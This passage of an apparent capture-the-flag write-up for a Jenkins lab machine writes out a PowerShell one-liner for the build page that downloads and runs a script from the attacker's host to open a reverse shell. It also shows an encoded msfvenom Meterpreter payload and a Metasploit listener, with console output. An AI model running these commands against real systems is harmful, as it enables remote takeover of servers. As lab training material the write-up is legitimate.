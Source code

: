 Create a local python web server using
{% capture code %}{% raw %}python -m http.server 8080{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...{% endraw %}{% endcapture %} {% include code.html code=code %}

Use `firefox` to paste the following code in `jenkins` build page.
{% capture code %}{% raw %}powershell invoke-expression (New-Object Net.WebClient).DownloadString('http://<source-ip>:8080/Invoke-PowerShellTcp.ps1') ; Invoke-PowerShellTcp -Reverse -IPAddress <source-ip> -Port 443{% endraw %}{% endcapture %} {% include code.html code=code %}

Check the `console` on `python web server` to see if the file is downloaded. The output will be similar to `<target-ip> - - [28/Apr/2021 06:39:25] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -`.

Execution of the script `Invoke-PowerShellTcp.ps1` will create a `reverse shell`. The output of `netcat` console will be similar to
{% capture code %}{% raw %}Connection from <target-ip> 49257 received!
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project> whoami
alfred\bruce

PS C:\Program Files (x86)\Jenkins\workspace\project> type "C:\users\bruce\desktop\user.txt"
<flag>>{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 2 - Switching Shells

Use `msfvenom` to create a payload which spawns `meterpreter` shell on `msfconsole`.
{% capture code %}{% raw %}msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<source-ip> LPORT=443 -f exe -o shell.exe{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe{% endraw %}{% endcapture %} {% include code.html code=code %}

Use `msfconsole -q` to create a `meterpreter` shell listener.
{% capture code %}{% raw %}msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > set LHOST <source-ip>
LHOST => <source-ip>

msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443

msf5 exploit(multi/handler) > run
[*] Started reverse TCP handler on <source-ip>:443{% endraw %}{% endcapture %} {% include code.html code=code %}

